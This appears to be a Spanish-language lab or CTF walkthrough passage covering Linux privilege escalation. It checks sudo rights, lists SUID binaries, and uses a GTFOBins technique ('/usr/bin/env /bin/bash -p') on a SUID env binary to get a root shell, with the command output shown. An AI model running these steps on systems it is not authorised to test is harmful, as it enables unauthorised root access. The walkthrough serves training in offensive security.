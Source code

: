 4- privilegios con sudo -l
```bash
sudo -l
```
nada 

5- mirar suid y capability

aquí con el suid me valió
```bash
find / -perm -4000 2>/dev/null
```
```
/usr/bin/chfn
/usr/bin/env
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

tenemos por ahí /usr/bin/env que no suele estar, vamos a la página:
```bash
https://gtfobins.github.io/
```
el el buscador introducimos
```
env
```
y de este binario podemos consultar /Shell/SUID/Sudo

como vimos tiene privilegios suid, podemos comprobarlo así:
```bash
ls -la /usr/bin/env
```
```
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
```
ahí podemos ver la s de suid

en gtfobin nos dice esto en la parte SUI:

```
./env /bin/sh -p
```

entonces lo adaptamos a nuestras necesidades:

```bash
/usr/bin/env /bin/bash -p
```

lo ejecutamos y:
```
balu@6858f5cbddcc:~$ /usr/bin/env /bin/bash -p
bash-5.2# id
uid=1000(balu) gid=1000(balu) euid=0(root) groups=1000(balu),100(users)
bash-5.2# whoami
root
bash-5.2# 
```









